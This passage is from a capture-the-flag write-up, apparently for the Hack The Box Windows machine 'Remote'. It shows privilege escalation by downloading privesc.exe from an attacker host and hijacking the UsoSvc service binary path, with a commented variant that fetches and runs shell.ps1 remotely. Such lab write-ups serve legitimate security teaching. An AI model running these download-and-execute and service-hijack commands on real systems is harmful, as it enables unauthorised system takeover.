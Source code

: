 - Then we have to upload it:

{% highlight powershell %}
PS C:\Windows\System32\spool\drivers\color> (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.12/privesc.exe', 'c:\Windows\System32\spool\drivers\color\privesc.exe')
{% endhighlight %}

- Finally, stop the service, change the binary path and restart the service:

{% highlight powershell %}
PS C:\Windows\System32\spool\drivers\color> net stop UsoSvc
The Update Orchestrator Service service is stopping.
The Update Orchestrator Service service was stopped successfully.

# We could also do: sc.exe config UsoSvc binpath= "powershell.exe 'IWR http://10.10.14.12/shell.ps1 -UseBasicParsing'"
PS C:\Windows\System32\spool\drivers\color> sc.exe config UsoSvc binpath= "C:\Windows\System32\spool\drivers\color\privesc.exe"
[SC] ChangeServiceConfig SUCCESS
PS C:\Windows\System32\spool\drivers\color> net start UsoSvc 
{% endhighlight %}

![](/assets/img/htb/machines/windows/easy/remote/system.png)

___

## Useful links

- <https://github.com/antonioCoco/RoguePotato>
- [My cheat sheat about Windows Privesc](https://github.com/amirr0r/notes/blob/master/Infosec/boot2root-cheatsheet.md#privesc)